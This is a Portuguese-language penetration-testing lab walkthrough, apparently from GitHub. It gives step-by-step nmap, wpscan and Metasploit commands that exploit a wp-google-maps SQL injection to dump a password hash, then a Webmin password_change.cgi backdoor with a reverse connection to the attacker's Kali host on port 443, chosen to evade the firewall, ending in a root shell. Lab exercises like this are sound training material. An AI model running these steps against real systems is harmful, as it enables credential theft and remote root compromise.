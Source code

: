 # First Pass Recon
'''
1º sudo nmap -sS -T4 'Seu IP'
'''
"Utilizar o IP do Kali para descobrir os outros dispostivos na rede, e assim saber os serviços que estão rodando."

'''
2º wpscan  —url ‘IP ALVO’
'''
"Utilizando o "wpscan", para assim levantar os plugins que estão rodando dentro da aplicação em questão. 
 Analisando então os plugins, pode-se localizar o plugin 'wp-google-maps'."

'''
3º sudo nmap -sV -p- -v -Pn 'IP ALVO' 
> -sV : Obtém a versão dos serviços rodando no alvo.
> -p- : Realiza um scanner em todas as 65535 portas.
> -v : Modo verboso.
> -Pn : Ignora o ICMP. 
'''
"Localize na saída analise os serviços utilizados pela aplicação e de atenção ao 'Webmin' 
 Dentro do terminal no Kali Linux utilize 'searchsploit webmin' Lista os exploits"

'''
4º sudo msfconsole
'''
"Fornece informações sobre vulnerabilidades de segurança e auxilia em testes de penetração e desenvolvimento de assinaturas IDS."

'''
5º msf5 > search wp-google-maps
'''
"Busca na ferramenta exploits para os plugins levantados no passo 2, localize o modo auxiliar para SQLinjection no wp-google-maps."

'''
6º msf5 > use 0  
'''
"Efetua no Metasploit o uso do auxiliar para SQLinjection."

'''
7º msf5 auxiliary (admin/http/wp-google-maps-sqli) > options 
'''
"Mostra as opções e quais dados devem ser setados no exploit."

'''
8º msf5 auxiliary (admin/http/wp-google-maps-sqli) > set rhosts 'IP ALVO' 
rhosts ⇒ ip do alvo
'''
"Adiciona o IP do alvo ao exploit para SQLinjection" 

'''
9º msf5 auxiliary (admin/http/wp-google-maps-sqli) > run 
'''
"Efetua o SQLinjection, trazendo no console que existe uma credencial salva no server, 
 capturando assim o ID e HASH da senha do usuário. 

'''
10º msf5 auxiliary (admin/http/wp-google-maps-sqli) > search webmin 
'''
"O MSF lista os exploits, no caso veja que foi encontrado o 'webmin password_change.cgi Backdoor', 
 exploit que será explorado nesse lab."

'''
11º msf5 auxiliary (admin/http/wp-google-maps-sqli) > use 2
'''
"Comando para iniciar o exploit que será utilizado."

'''
12º msf5 auxiliary (admin/http/wp-google-maps-sqli) > options 
'''
"Mostra todas as opções que se pode setar no exploit, mostrando também que já veio setado um 'payload' no caso em questão, 
 caso não viesse, o usuário deveria fazer o 'payload'."

'''
13º msf5 auxiliary (admin/http/wp-google-maps-sqli) > info 
'''
"Analisa as informações do exploit, mostrando a versão."

'''
14º msf5 auxiliary (admin/http/wp-google-maps-sqli) > set forceexploit true 
'''
"Caso a versão seja diferente o comando 'force' faz com que o msf execute o exploit independente da versão." 

'''
15º msf5 auxiliary (admin/http/wp-google-maps-sqli) > options 
'''
"Analise as informações a serem setadas, como no caso o 'rhosts, lhost, lport e ssl'."

'''
16º msf5 auxiliary (admin/http/wp-google-maps-sqli) > set rhosts 'IP ALVO'
> rhost: IP DO ALVO (Para a conexão remota)
'''

'''
17º msf5 auxiliary (admin/http/wp-google-maps-sqli) > set lhost 'IP KALI' 
> lhost: IP KALI (Para receber a conexão reversa)
'''

'''
18º msf5 auxiliary (admin/http/wp-google-maps-sqli) > set lport 443
> lport: 443 (Número da porta onde irá simular a conexão com a web, evitar setar número alto para burlar o firewall.)
'''

'''
19º msf5 auxiliary (admin/http/wp-google-maps-sqli) > set ssl true 
> ssl: TRUE (Confirma para que assim tenha a conexão)
'''

'''
20º msf5 auxiliary (admin/http/wp-google-maps-sqli) > run 
'''
Após o msf5 abrir a sessão com o alvo, digite 'whoami' caso seja 'root' digite no terminal -> shell <- acesso realizado. 
